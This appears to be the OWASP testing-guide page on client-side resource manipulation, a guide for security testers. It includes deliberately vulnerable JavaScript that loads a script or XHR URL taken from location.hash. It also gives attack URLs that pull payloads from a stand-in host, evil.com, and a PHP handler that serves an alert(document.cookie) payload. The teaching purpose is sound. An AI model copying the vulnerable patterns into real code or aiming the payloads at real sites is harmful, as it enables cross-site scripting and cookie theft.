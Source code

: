 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Testing for Client-side Resource Manipulation

|ID          |
|------------|
|WSTG-CLNT-06|

## Summary

A client-side resource manipulation vulnerability is an input validation flaw. It occurs when an application accepts user-controlled input that specifies the path of a resource such as the source of an iframe, JavaScript, applet, or the handler of an XMLHttpRequest. This vulnerability consists of the ability to control the URLs that link to some resources present in a web page. The impact of this vulnerability varies, and it is usually adopted to conduct XSS attacks. This vulnerability makes it is possible to interfere with the expected application's behavior by causing it to load and render malicious objects.

The following JavaScript code shows a possible vulnerable script in which an attacker is able to control the `location.hash` (source) which reaches the attribute `src` of a script element. This particular case leads to a XSS attack as external JavaScript could be injected.

```html
<script>
    var d=document.createElement("script");
    if(location.hash.slice(1)) {
        d.src = location.hash.slice(1);
    }
    document.body.appendChild(d);
</script>
```

An attacker could target a victim by causing them to visit this URL:

`www.victim.com/#http://evil.com/js.js`

Where `js.js` contains:

```js
alert(document.cookie)
```

This would cause the alert to pop up on the victim's browser.

A more damaging scenario involves the possibility of controlling the URL called in a CORS request. Since CORS allows the target resource to be accessible by the requesting domain through a header-based approach, the attacker may ask the target page to load malicious content from its own website.

Here is an example of a vulnerable page:

```html
<b id="p"></b>
<script>
    function createCORSRequest(method, url) {
        var xhr = new XMLHttpRequest();
        xhr.open(method, url, true);
        xhr.onreadystatechange = function () {
            if (this.status == 200 && this.readyState == 4) {
                document.getElementById('p').innerHTML = this.responseText;
            }
        };
        return xhr;
    }

    var xhr = createCORSRequest('GET', location.hash.slice(1));
    xhr.send(null);
</script>
```

The `location.hash` is controlled by user input and is used for requesting an external resource, which will then be reflected through the construct `innerHTML`. An attacker could ask a victim to visit the following URL:

`www.victim.com/#http://evil.com/html.html`

With the payload handler for `html.html`:

```html
<?php
header('Access-Control-Allow-Origin: http://www.victim.com');
?>
<script>alert(document.cookie);</script>
```

## Test Objectives

- Identify sinks with weak input validation.
- Assess the impact of the resource manipulation.

## How to Test

To manually check for this type of vulnerability, we must identify whether the application employs inputs without correctly validating them. If so, these inputs are under the control of the user and could be used to specify external resources. Since there are many resources that could be included in the application (such as images, video, objects, css, and iframes), the client-side scripts that handle the associated URLs should be investigated for potential issues.

The following table shows possible injection points (sink) that should be checked:

| Resource Type   | Tag/Method                                | Sink   |
| --------------- | ----------------------------------------- | ------ |
| Frame           | iframe                                    | src    |
| Link            | a                                         | href   |
| AJAX Request    | `xhr.open(method, [url], true);` | URL    |
| CSS             | link                                      | href   |
| Image           | img                                       | src    |
| Object          | object                                    | data   |
| Script          | script                                    | src    |

The most interesting ones are those that allow to an attacker to include client-side code (for example JavaScript) that could lead to XSS vulnerabilities.
